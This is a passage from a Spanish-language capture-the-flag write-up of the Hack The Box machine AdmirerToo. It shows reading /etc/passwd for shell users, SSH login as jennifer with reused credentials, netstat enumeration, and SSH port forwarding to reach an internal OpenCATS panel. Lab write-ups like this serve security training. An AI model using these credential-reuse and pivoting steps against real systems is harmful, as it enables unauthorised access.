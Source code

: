 ```shell
opentsdb@admirertoo:/var/www/adminer/plugins/data$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
jennifer:x:1002:100::/home/jennifer:/bin/bash
```
Con jennifer tuvimos éxito al conectarnos con las nuevas credenciales.

```shell
❯ ssh jennifer@10.10.11.137
The authenticity of host '10.10.11.137 (10.10.11.137)' can't be established.
ECDSA key fingerprint is SHA256:7ES0PDZC7RQ7ZgfcZylBLXpuGI+EgrGEmO04kwjbp54.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.137' (ECDSA) to the list of known hosts.
jennifer@10.10.11.137's password: 
Linux admirertoo 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Tue Feb 22 20:58:38 2022 from 10.10.14.8
jennifer@admirertoo:~$ whoami
jennifer
jennifer@admirertoo:~$ 
```
Dentro vemos que está corriendo el puerto 8080 que no pudimos visualizar.

```shell
jennifer@admirertoo:~$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0    208 10.10.11.137:22         10.10.14.22:43388       ESTABLISHED
tcp        0      0 10.10.11.137:45972      10.10.14.22:443         ESTABLISHED
tcp6       0      0 :::16030                :::*                    LISTEN     
```
Hacemos un portforwarding para traernos el puerto a nuestra máquina.

```shell
❯ ssh jennifer@10.10.11.137 -L 8081:127.0.0.1:8080
```
Dentro del puerto nos encontramos con opencats, con las credenciales por defecto no pudimos conectarnos, pero con las credenciales de jennifer sí tuvimos éxito.
